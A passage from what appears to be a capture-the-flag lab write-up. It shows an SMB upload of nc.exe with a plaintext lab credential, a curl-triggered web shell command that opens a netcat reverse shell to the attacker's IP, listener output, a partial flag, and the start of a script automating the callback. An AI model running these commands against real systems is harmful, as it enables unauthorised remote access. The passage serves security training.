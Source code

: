 ```

root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe

root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/netcat/nc.exe nc.exe'
putting file /opt/shells/netcat/nc.exe as \nc.exe (359.2 kb/s) (average 359.2 kb/s)

```

Next, invoke it to get a shell back:

```

root@kali# curl "http://10.10.10.97:8808/0xdf.php?cmd=nc.exe+-e+cmd.exe+10.10.14.15+443"

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49738.
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
secnotes\tyler

```

From here I can grab `user.txt`:

```

C:\Users\tyler\Desktop>type user.txt
6fa75569...

```

### Directory Clearing

The root directory of the share / webserver seems to be cleared out very frequently, which could get annoying. I created a quick script to get a shell callback:

```

#!/bin/bash

if [ "$#" -ne 2 ]; then
    echo "Usage: $0 [ip] [port]"
    echo "Include ip and port to connect back to"
    exit
fi;

ip=$1
port=$2

echo "[*] Uploading webshell and nc.exe"
```
